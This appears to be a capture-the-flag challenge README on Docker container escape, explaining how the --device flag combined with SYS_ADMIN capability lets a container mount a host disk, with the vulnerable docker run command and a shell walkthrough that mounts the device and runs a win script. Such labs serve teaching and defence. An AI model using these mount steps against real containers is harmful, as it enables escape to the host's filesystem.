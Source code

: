 # Dangerous device mount

Docker has built-in flag _--device_ which allows devices to be run inside a container. This way, _--privileged_ flag does not need to be used. When combined with _SYS_ADMIN_ capability, device can be also mounted, and therefore interaction between another file system takes place. Mounting a device itself is not dangerous if the device is for example a pendrive or external hard drive, but mounting internal drive which is used by host system can help attackers to escape from a container.

## Description

Prepared device is a virtual disk in `.iso` format, which is mounted as a loop device. In real environment, it could be /dev/sda when whole system areagit would be accessible. Due to the fact of how the platform is constructed, many different possibilities for disk creation could not be used. Additional information can be found in `create_disk.sh` file.

Docker is run with following command:
```
docker run --device={loop}:/dev/s3cur3 --cap-add='SYS_ADMIN' -p {port}:8081 -d --restart unless-stopped vuln
```
where {loop} is a /dev/loopX device which will be mounted as /dev/s3cur3.

Docker run with this command has this device available in its /dev. Additionally, SYS_ADMIN capability allows to use `mount` command.

## Solution

```
root@c9a6d5d0c7b7:/# ls /dev
core  fd  full  mqueue  null  ptmx  pts  random  s3cur3  shm  stderr  stdin  stdout  tty  urandom  zero
root@c9a6d5d0c7b7:/# mkdir /mnt/drive
root@c9a6d5d0c7b7:/# mount /dev/s3cur3 /mnt/drive
root@c9a6d5d0c7b7:/# cd /mnt/drive
root@c9a6d5d0c7b7:/mnt/drive# ls
RUN_ME_TO_WIN.sh  lost+found
root@c9a6d5d0c7b7:/mnt/drive# ./RUN_ME_TO_WIN.sh
root@c9a6d5d0c7b7:/mnt/drive# ls
RUN_ME_TO_WIN.sh  VICTORY  lost+found
root@c9a6d5d0c7b7:/mnt/drive# 
```

## Challenge author
[linoskoczek](https://github.com/linoskoczek/)
